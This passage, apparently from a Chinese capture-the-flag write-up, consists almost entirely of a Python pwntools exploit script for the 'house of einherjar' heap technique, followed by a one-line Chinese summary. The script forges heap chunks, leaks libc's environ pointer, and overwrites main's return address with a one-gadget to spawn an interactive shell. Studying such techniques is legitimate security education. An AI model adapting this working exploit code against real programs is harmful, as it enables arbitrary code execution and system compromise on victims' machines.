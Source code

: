 ```
add(0x100,"f"*0xf8)

fake_addr=0x602040+0x20
size=heap_base-fake_addr+0x20
print hex(size)
payload="b"*0x20+p64(0x11111111)+p64(0xf1)+p64(fake_addr)*2
edit(3,payload)

for i in range(len(p64(size))-len(p64(size).strip('\x00'))+1):
    edit(1,'a'*0x10+p64(size).strip('\x00').rjust(8-i,'f'))

#edit(1,'a'*0x10+p64(size))
#gdb.attach(p)
delete(2)
p.recvuntil("\nDeleted.")
payload="a"*0x20+p64(0)+p64(0x111)+p64(main_arena)+p64(main_arena)
edit(4,payload)
#gdb.attach(p)
getgat=libc_base+0x45216
environ_point=libc_base+libc.symbols['__environ']
payload="A"*0xd0+p64(0x100)+p64(environ_point)+p64(0x100)+p64(0x602148)
add(0x100,payload)
#gdb.attach(p)
p.recvuntil(" # CONTENT: ")
environ_addr=u64(p.recvuntil('\n',drop=True).ljust(8,'\x00'))
print "environ_addr="+hex(environ_addr)
main_ret_addr=environ_addr-30*8
print "main_ret _addr="+hex(main_ret_addr)
gdb.attach(p)
edit(2,p64(main_ret_addr))
edit(1,p64(getgat))
p.sendline("q")
p.interactive()

```



## 总结

house of einherjar其实就是让程序在malloc时，可以分配到任意的地址，结合其他利用手段，可以产生巨大威力